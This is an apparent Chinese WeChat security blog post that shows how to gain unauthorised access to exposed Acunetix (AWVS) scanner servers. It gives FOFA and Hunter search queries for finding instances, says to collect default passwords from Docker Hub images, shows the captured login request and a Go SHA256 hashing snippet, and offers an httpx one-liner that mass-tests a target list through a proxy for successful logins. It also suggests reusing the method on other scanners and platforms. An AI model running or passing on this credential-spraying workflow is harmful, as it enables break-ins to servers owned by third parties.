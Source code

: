 #  通过默认口令白嫖AWVS

原创 Win64debug [ KQsec ](javascript:void\(0\);)

**KQsec** ![]()

微信号 M1debug

功能介绍 风起于青萍之末，止于草莽之间

____

___发表于_

收录于合集

网站空间资产测绘搜索：

fofa： "Acunetix"

鹰图：app.name=="AWVS"  
......

想办法将AWVS资产提取出来，形成txt列表。

收集默认口令：

    
    
    docker search awvs  
    

![]() **  
**

 **把docker hub 上的awvs默认密码全收集过来**

![]()![]()

###  分析AWVS登录逻辑

#### 登录时抓包

 **请求体数据包**

    
    
    POST /api/v1/me/login HTTP/1.1  
    Host: xxxxxxx:13443  
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36  
    Content-Length: 159  
    Accept-Charset: utf-8  
    Content-Type: application/json  
    Accept-Encoding: gzip, deflate  
    Connection: close   
      
    {"email": "admin@admin.com", "password": "3b612c75a7b5048a435fb6ec81e52ff92d6d795a8b5a9c17070f6a63c97a53b2", "remember_me": "false", "logout_previous": "true"}  
    

POST 请求：https://$ip:port/api/v1/me/login

json格式

    
    
    {"email": "admin@admin.com", "password": "3b612c75a7b5048a435fb6ec81e52ff92d6d795a8b5a9c17070f6a63c97a53b2", "remember_me": "false", "logout_previous": "true"}  
    

需带上：`"logout_previous": "true"`

#### 分析password生成逻辑

通过简单前端JS调试，找到处理password的逻辑。

![]()

password 是 SHA256计算后得到的值：

    
    
    password: e.SHA256(O.password).toString()  
    

![]()使用在线SHA256加密或任意编程语言计算：

    
    
    package main  
      
    import (  
        "crypto/sha256"  
        "encoding/hex"  
        "fmt"  
    )  
      
    func hashPassword(password string) string {  
        hash := sha256.Sum256([]byte(password))  
        return hex.EncodeToString(hash[:])  
    }  
      
    func main() {  
        passwordHash := hashPassword("Admin123")  
        fmt.Println(passwordHash)  
    }  
    

经过多次分析，`AWVS`成功登录时响应码为`204`

假设将目标存在 `domains.txt`中，请求登录，`email`和`password`正确时，响应码为 `204`

![]()image.png

### 批量验证

使用`httpx`进行批量验证

    
    
    cat domains.txt|httpx -silent -H "Content-Type: application/json" -random-agent -proxy="http://127.0.0.1:7890" -body='{"email": "admin@admin.com", "password": "3b612c75a7b5048a435fb6ec81e52ff92d6d795a8b5a9c17070f6a63c97a53b2", "remember_me": "false", "logout_previous": "true"}' -x post -sc -nc -mc 204 -o awvs.txt  
    

  

 **其他破解、开源漏扫，资产收集工具（如：ARL），通用平台，可能也适用此思路**

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

